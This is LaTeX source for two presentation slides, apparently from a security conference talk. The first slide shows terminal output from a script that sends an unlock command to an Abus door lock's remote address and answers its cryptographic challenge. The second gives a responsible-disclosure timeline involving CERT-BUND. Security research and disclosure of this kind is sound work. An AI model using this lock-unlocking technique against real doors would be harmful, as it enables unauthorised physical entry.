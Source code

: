 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]
	\frametitle{After Extracting the Secrets...}

	\begin{columns}
		\begin{column}{0.7\textwidth}
			\begin{small}
\begin{lstlisting}
sh> ./cff3000.py "ba:ad:c0:de:da:e5" "unlock-door1"

Remote Control Address: ba:ad:c0:de:da:e5
Command Byte: 11

Sending control requests...
  ab ba ad c0 de da e5 11 00 00 00 00 00 00 00 00
Receiving challenge...
  ab 54 25 f3 12 52 a1 11 6e 95 a2 69 cd b3 00 02
Sending encrypted response...
  4d db 88 48 33 c6 33 ec e6 7f 5b 26 51 c7 38 a5
\end{lstlisting}
			\end{small}
		\end{column}
		\begin{column}{0.3\textwidth}
			\begin{center}
				\includegraphics[height=0.8\textheight]{cff3000-dithered.png}
			\end{center}
		\end{column}
	\end{columns}
\end{frame}

\begin{frame}
	\frametitle{Responsible Disclosure}

	\begin{itemize}
		\item \texttt{rC3 ~ 2021} - Found AES S-Box
		\item \texttt{10.01.2022} - Full door lock access
		\item \texttt{31.01.2022} - Ask disclosure@ccc.de for prior experience with Abus
		\item \texttt{08.02.2022} - Report to CERT-BUND
		\item \texttt{22.07.2022} - MCH2022
	\end{itemize}
\end{frame}
\end{document}
